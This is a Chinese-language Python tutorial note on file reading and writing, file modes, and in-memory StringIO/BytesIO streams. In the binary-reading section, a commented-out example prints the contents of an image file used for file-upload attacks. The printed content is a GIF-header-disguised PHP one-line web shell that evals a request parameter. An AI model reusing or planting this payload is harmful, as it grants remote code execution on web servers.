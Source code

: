### 基本语法

```python
open('文件地址','读写模式',encoding='编码格式')
```

最开始的写法：

```python
try:
    f = open('工程学习\Pyhton\基本\基本库学习\IO编程\demo.txt','r',encoding='utf-8')
    print(f.read())
finally:
    if f:
        f.close()
```

常用规范写法：

```python
with open('工程学习\Pyhton\基本\基本库学习\IO编程\demo.txt','r',encoding='utf-8') as f:
    #print(f.read())
    for line in f.readlines():
        print(line.strip())
```



### 读

#### 读取图片（二进制文件）

```python
#读取二进制文件
#第一个图片是用于文件上传漏洞的
"""
with open("工程学习\Pyhton\基本\基本库学习\IO编程\muma.jpg",'rb') as f:
    print(f.read())

b"GIF89a\r\n<script language='php'>@eval($_REQUEST['shell']);</script>\r\n"
"""

with open("工程学习\Pyhton\基本\基本库学习\IO编程\mylogo.jpg",'rb') as f:
    print(f.read())
    
# xef\xaf]\xa4\xbfn\xc5\x14wc\x88\x83\x8f/\x0c\xd6\x7f\x9f\xf1\xd1s\xc0\xfb{g9~$k\x99e\x91Bj~FE\xcf\xd0\x1c\xd5Z\xb1s\x06.\x8cQG\'\x88S\x86o\xf9v\xa6\xcfo,\x04\tUW#a\xa8\x13\xf4\x15\xaa/F9-\x8c\x87b\xd9\xea\x86\xa2\x07*w\xc1\xe4\x0f\x9d=N\x18\xfaTc\x96)\xfb\x0b.q\t-\xdc@\xb6\x82\xed \nZ4\x9eP\xe0\x02w\xc6\x00\x03\xbd\xaa\xaf\xfb9\xc2\xc5\xd4\x92]][\xccmQ\x19Vh\xd0\xb0Yv*0\x06w\xc1\x1c\xba\xd6,\xa7\t\x10\xc2\x8c)\x04\x8c\xe5\xb7\xe6~\xbfj\xe8\xe3\xb8\xfe\t\xec\xf5\xb4\xf62<3\xdd\xbe\xa9a\xb9\x84ku\x1bwH\x18)\x9c\xecp|*\xa9\xe9R-\x82\xb9[!\xbc\xf6VkH^Y\xa5~\xd1\xc8\x10D\x10\xb1v;\xeeyr\xcf*l^\xc4{M<BD\xe1.\x11\x87t\xbc\xb1\xa9?"\xc0\.....
```



### 写

调整模式

```python
with open("工程学习\Pyhton\基本\IO编程\demo.txt",'w',encoding="utf-8") as f:
    f.write("Hello world")
```

> 但是'w'模式，会清空原内容，然后再写入



各种模式如下：

| 模式  | 描述                                                         |
| ----- | ------------------------------------------------------------ |
| `r`   | 读取模式，文件必须存在，否则抛出 `FileNotFoundError`         |
| `w`   | 写入模式，如果文件已存在则清空内容，如果文件不存在则创建新文件 |
| `a`   | 追加模式，如果文件已存在则在末尾追加内容，如果文件不存在则创建新文件 |
| `rb`  | 二进制模式读取，文件必须存在，否则抛出 `FileNotFoundError`   |
| `wb`  | 二进制模式写入，如果文件已存在则清空内容，如果文件不存在则创建新文件 |
| `ab`  | 二进制模式追加，如果文件已存在则在末尾追加内容，如果文件不存在则创建新文件 |
| `r+`  | 读写模式，文件必须存在，否则抛出 `FileNotFoundError`         |
| `w+`  | 读写模式，如果文件已存在则清空内容，如果文件不存在则创建新文件 |
| `a+`  | 读写模式，如果文件已存在则在末尾追加内容，如果文件不存在则创建新文件 |
| `rt`  | 文本模式读取，等同于 `r`                                     |
| `wt`  | 文本模式写入，等同于 `w`                                     |
| `at`  | 文本模式追加，等同于 `a`                                     |
| `x`   | 独占创建模式，文件必须不存在，否则抛出 `FileExistsError`     |
| `x+`  | 独占创建并读模式，文件必须不存在，否则抛出 `FileExistsError` |
| `rb+` | 二进制模式读写，文件必须存在，否则抛出 `FileNotFoundError`   |
| `wb+` | 二进制模式读写，如果文件已存在则清空内容，如果文件不存在则创建新文件 |
| `ab+` | 二进制模式读写，如果文件已存在则在末尾追加内容，如果文件不存在则创建新文件 |



### 内存读写

#### `StringIO`---

在内存中读写，操作对象不再是文件

- `write`

```python
>>> from io import StringIO
>>> f = StringIO()
>>> f.write('hello')
5
>>> f.write(' ')
1
>>> f.write('world') 
5
>>> f.getvalue()
'hello world'
```

-  `read`

操作一样

```python
f = StringIO("Hello Dx!!!")
str = f.read()
print(str)
```



#### `BytesIO`----

顾名思义这个就是在内存中读写二进制类型

```python
from io import BytesIO

# 创建 BytesIO 对象
f = BytesIO()

f.write('理想'.encode('utf-8'))
print(f.getvalue())  
# b'\xe7\x90\x86\xe6\x83\xb3'

print(f.getvalue().decode('utf-8'))
# 理想
```

